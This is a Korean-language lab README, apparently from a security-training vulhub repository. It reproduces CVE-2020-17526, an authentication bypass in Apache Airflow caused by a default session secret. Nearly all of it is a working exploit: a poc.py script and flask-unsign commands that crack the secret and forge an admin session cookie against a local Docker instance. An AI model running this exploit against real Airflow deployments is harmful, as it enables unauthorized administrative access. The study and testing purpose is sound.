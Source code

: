 ## CVE-2020-17526


Apache Airflow는 오픈 소스 분산 작업 예약 프레임워크입니다. 기본적으로 인증은 필요하지 않지만 관리에서는 webserver.authenticate=True를 지정하여 활성화할 수 있습니다.

1.10.13 이전 버전에서 Apache Airflow는 기본 세션 secert 키를 사용하므로 인증이 활성화되면 임의의 사용자로 로그인 가능합니다.

References:

-   https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
-   https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## Vulnerability Environment - 취약환경

다음 명령을 실행하여 airflow 1.10.10 서버를 시작합니다.

```
docker compose run airflow-init
docker compose up -d
```

위 명령어 후에 서버가 실행 되고, http://localhost:8080으로 접속하면 Apache Airflow서비스의 로그인 페이지에 접근 할 수 있습니다.

## Exploit

0\. 3번까지의 내용을 생략하고 poc.py를 실행시킬 수 있습니다.
poc.py
```
import requests
import re
import subprocess

url = "http://localhost:8080/admin/airflow/login"
response = requests.get(url)
set_cookie_header = response.headers.get("Set-Cookie")
session_value = re.search(r'session=(.*?);', set_cookie_header)

if session_value:
    session_value = session_value.group(1)
    print("Session 값:", session_value)
else:
    print("Session 값이 없습니다.")

command = "flask-unsign -u -c " + session_value
result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

if result.returncode == 0:
    print("secret")
    print(result.stdout)
else:
    print("명령 실행 실패")
    print(result.stderr)

crack_session = result.stdout
crack_session = crack_session.replace('\'','').replace('\n','')
command2 = "flask-unsign -s --secret "+crack_session+" -c \"{'user_id': '1', '_fresh': False, '_permanent': True}\""
result2 = subprocess.run(command2, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

if result2.returncode == 0:
    print("final session")
    print(result2.stdout)
else:
    print("명령 실행 실패")
    print(result2.stderr)
```

1\. 서비스에 접근해서 Cookie를 받습니다.

```
curl -v http://localhost:8080/admin/airflow/login
```

curl(↑) 또는 파이썬(↓)을 이용합니다

```
import requests
import re

url = "http://localhost:8080/admin/airflow/login"
response = requests.get(url)
set_cookie_header = response.headers.get("Set-Cookie")
session_value = re.search(r'session=(.*?);', set_cookie_header)

if session_value:
    session_value = session_value.group(1)
    print("Session 값:", session_value)
else:
    print("Session 값이 없습니다.")
```

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/2f29d1c7-cc14-4b15-a44b-92f42a43f93a)


2\. flask-unsign을 이용해 session key를 크랙합니다.

```
flask-unsign -u -c [session from Cookie]
```

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/776d0d36-8260-443f-8301-7fe92807acc7)


3\. user\_id가 1인 유저에 접근하기 위해 session 생성

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/9e00264f-3b55-4454-b81f-60d478a4ef5c)


4\. 쿠키에 삽입후 로그인 확인

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/a42ce5f9-9f6b-453a-abb8-0cb970f42828)
